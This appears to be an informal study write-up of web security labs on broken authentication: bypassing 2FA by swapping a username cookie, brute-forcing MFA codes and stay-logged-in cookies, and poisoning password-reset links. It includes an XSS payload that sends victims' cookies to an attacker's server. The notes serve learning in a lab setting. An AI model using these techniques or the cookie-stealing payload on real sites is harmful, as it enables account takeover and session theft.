 # **Vulnerabilities in multi-factor authentication:**

Once logged-in without providing 2fa code user might be able to access other page with only providing the passwrod.

And in some websites, the servers will use same cookie for all users, where it changes only username in that cookie according to the user. We can use this as a flawed mfa.

## **Lab: 2FA broken logic**

Here first we login using our own credentials in POST:/login (cookie : session-username)

Then we get GET:/login2 (cookie : session-username) → Here even if we remove session and only put username we will go to this page, so we can modify the username to victim username here

Then once we go to emailclient and get out mfa code and paste it here

We POST:/login2 (cookie : session-username, mfa-code:$1332$) →  Here even if we remove session and only put username we will go to this page, so we can modify the username to victim username here to go to main authenticated page.

But to go to main authenticated page we need to bruteforce mfa code 4 digit number, can do it by burp-intruder. For once request with username:victim, and proper mfacode you’ll get 302 status. From that response fetch the proper session.

And in website while loggin in your main page with your credential, just change the session cookie and reload the page. BOommm!!!

# Vulnerabilities in other mechanisms:

Some websites put this robust mechanisms only in login/signup page, but not in password reset page.

**Keeping users logged in →** Here some websites generate temporary cookie session to store permanently to keep the user logged in even after closing the browser. That temporary cookie should be random, but misconfigured-websites will generate this cookie based on the username-timestamp-password.  If attacker understands the formula of this in his own account, he can generate the cookie for his victim’s account.

## **Lab: Brute-forcing a stay-logged-in cookie:**

Here when we check with our login credentials, we logged in and clicked stay-logged in option.

Then we intercepted our request in burp, there is an additional cookie → set-session cookie: while decoding it in base64 it gives username:salt-hash , while cracking that hash in crackstation MD5 → it gives exact password. 

So this cookie can be bruteforced

After login using our credentials, we will receive response GET:/myaccount page → here remove 

cookie : set-logged-session=somevalue1; session=somevalue2;

pass this to intruder by cookie : set-logged-session=$somevalue1$; session= (as session will be setted by itself)

In intruder paste password in payloads and apply rules as per the encrypted formula. And start the attack

## XSS attack in common webpages of a web-app to fetch cookie

Attacker and victim, share same webpage with xss vulnerability. Each user have separate server to view their log. Attacker can post in xss comments attack like <script>

```bash
<script>document.location="attacker's server ip"+document.cookie</script>
```

When victim go through this attack, his cookie will be stored in attacker’s server.


### **Lab: Password reset broken logic**

Can login with known credentials

Then give password reset - in your account, you’ll get email. 

In that email update new and confirm password and send it to burp intruder.

Websites might have temp-password-code in the previous request, and in this request.

And also send temp-password-code as parameter, some misconfigured servers only check the given temp-password-code and parameter is same, but not they contain original valid codes.

Can use this and change the code, and provide victim username and desired password.

### **Lab: Password reset poisoning via middleware**

If the url for password reset is generating dynamically, this is also vulnerable. As some attacker can steal the victim-specific url and change their password .

lab:

Can login with known credentials

Then give password reset - in your account, you’ll get email.  → In this request, origin id will be sent, and it’ll be victim’s account id. But here we can add X-Forwarded-Host and given our exploit server’s id

Then link will go to victim, but once he clicks that link → cookie along with next request will come to attacker’s server which is passed as X-Forwarded-Host
